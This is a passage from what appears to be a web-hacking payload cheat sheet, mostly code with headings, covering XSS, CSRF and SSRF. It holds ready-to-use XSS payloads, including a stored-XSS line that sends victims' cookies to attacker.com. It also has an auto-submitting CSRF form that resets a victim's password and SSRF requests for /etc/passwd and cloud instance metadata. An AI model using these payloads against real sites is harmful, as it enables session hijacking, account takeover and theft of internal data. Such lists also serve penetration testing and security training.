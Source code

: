 ```html
<script>alert(1)</script>
"><svg onload=alert(1)>
```

#### 💣 Stored XSS

```html
<script>new Image().src='http://attacker.com/'+document.cookie</script>
```

#### ⚙️ DOM-Based XSS

```javascript
<script>eval(location.hash.slice(1))</script>
#alert(1)
```

#### 🧠 XSS with Event Handlers

```html
<img src=x onerror=alert(1337)>
<svg onload=prompt(document.domain)>
```

***

### V. 🧩 Cross-Site Request Forgery (CSRF)

#### ⚙️ Basic Concept

Forces a logged-in user to perform actions they didn’t intend.

#### 💣 CSRF Exploit Example

```html
<form action="http://victim.com/change_password.php" method="POST">
  <input type="hidden" name="password" value="hacked123">
  <input type="submit">
</form>
<script>document.forms[0].submit()</script>
```

***

### VI. 🧠 Server-Side Request Forgery (SSRF)

#### ⚙️ Basic Payloads

```bash
http://target.com/fetch?url=http://127.0.0.1:80
http://target.com/fetch?url=file:///etc/passwd
```

#### 💣 Internal Service Enumeration

```bash
curl "http://target.com/fetch?url=http://169.254.169.254/latest/meta-data/"
```
